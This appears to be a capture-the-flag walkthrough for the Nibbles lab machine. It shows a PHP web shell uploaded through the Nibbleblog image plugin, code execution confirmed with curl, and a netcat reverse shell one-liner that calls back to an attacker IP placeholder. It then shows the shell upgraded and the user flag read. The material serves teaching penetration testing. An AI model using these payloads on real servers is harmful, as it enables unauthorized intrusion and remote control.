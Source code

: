 * Now that we are logged in to the admin portal, we need to attempt to turn this access into code execution and ultimately gain reverse shell access to the webserver. We know a `Metasploit` module will likely work for this, but let us enumerate the admin portal for other avenues of attack. Looking around a bit, we see the following pages:
	* Publish
	* Comments
	* Manage
	* Settings Themes
	* Plugins
* Attempting to make a new page and embed code or upload files does not seem like the path. Let us check out the plugins page.
	* Let us attempt to use this plugin to upload a snippet of `PHP` code instead of an image. The following snippet can be used to test for code execution.
	```php
<?php system('id'); ?>
```
	* Save this code to a file and then click on the `Browse` button and upload it.
	* We get a bunch of errors, but it seems like the file may have uploaded.
```shell-session
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
```
* Under `/content`, there is a `plugins` directory and another subdirectory for `my_image`. The full path is at `http://<host>/nibbleblog/content/private/plugins/my_image/`.
	* In this directory, we see two files, `db.xml` and `image.php`, with a recent last modified date, meaning that our upload was successful.
	* To check if we have command execution:
```shell-session
6165@htb[/htb]$ curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```
* We have gained remote code execution on the web server, and the Apache server is running in the `nibbler` user context
* We can now modify our PHP file to obtain a reverse shell and start poking around the server.
	* Let us edit our local PHP file and upload it again. This command should get us a reverse shell. As mentioned earlier in the Module, there are many reverse shell cheat sheets out there. Some great ones are [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) and [HighOn,Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/).
	* Let us use the following `Bash` reverse shell one-liner and add it to our `PHP` script.
```shell-session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```
* We upload the file again and start a `netcat` listener in our terminal:
```shell-session
0xdf@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
```
* `cURL` the image page again or browse to it in `Firefox` at http://nibbleblog/content/private/plugins/my_image/image.php to execute the reverse shell.
```shell-session
6165@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```
* We have a reverse shell, let us upgrade our shell to a "nicer" shell since the shell that we caught is not a fully interactive TTY and specific commands such as `su` will not work, we cannot use text editors, tab-completion does not work, etc.
	* This [post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) explains the issue further as well as a variety of ways to upgrade to a fully interactive TTY. For our purposes, we will use a `Python` one-liner to spawn a pseudo-terminal so commands such as `su` and `sudo` work as discussed previously in this Module.
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
* Our first attempt fails as `Python2` seems to be missing from the system.
```shell-session
$ python -c 'import pty; pty.spawn("/bin/bash")'

/bin/sh: 3: python: not found

$ which python3

/usr/bin/python3
```
* We have `Python3` though, which works to get us to a friendlier shell by typing `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Browsing to `/home/nibbler`, we find the `user.txt` flag as well as a zip file `personal.zip`.
* Retrieve user flag:
```shell-session
nibbler@Nibbles:/home/nibbler$ cat user.txt

cat user.txt

688fef55a59e79dd7bfb5c126386789d
```
